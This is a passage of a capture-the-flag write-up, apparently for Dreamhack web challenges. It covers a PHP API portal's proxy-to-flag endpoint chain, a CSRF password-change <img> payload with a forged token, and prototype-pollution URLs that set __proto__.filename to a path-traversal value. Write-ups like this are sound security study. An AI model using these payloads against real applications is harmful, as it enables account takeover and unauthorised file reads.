 ```php
        $param = array($_GET["url"], $_SERVER["REMOTE_ADDR"], urldecode($_SERVER["REQUEST_URI"])); //TODO: implement POST data
        break;
    // disabled
    case "net/ping":
        $param = array($_GET["target"]);
        break;
    // disabled
    case "net/nslookup":
        $param = array($_GET["domain"], $_GET["record"]);
        break;
    ..

    // Flag
    case "flag/flag":
    ..
    default:
    ..
}

include "action/$action.php";
```

Looking through the code I understood it's one endpoint that treats redirects to different features depending on the action param. Looking through the code of each function. What got my mind at first is the following:
1. `/db/create` -> `/db/save` == Create a file that the flag will be printed to .
2. `/net/proxy/get` -> `/net/proxy/post` == trigger post request by the get request to bypass the endpoint filter in the flag/flag.
3. `/net/proxy/post` -> `/flag/flag`

But I found out by trying it locally that I can trigger the `/flag/flag` by hitting the `/net/proxy/post` endpoint directly.


Final payload in file [api portal exploit script](./api_portal.py)

## CSRF Advanced 

CSRF Vulnerabilty due to insecure CSRF token generation
payload to send 
```html
<img src="/change_password?pw=dreamhack&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb">
```


## filestorage

Proto pollution due to the vulnerable function setValue which is recursive that it allows to assign entire objects. We will exploit the `/readfile` endpoint specifically the `read['filename']` value by clearing so it uses the prototype value.

`URL/test?func=reset`
`URL/test?func=rename&filename=__proto__.filename&rename=../../../flag`

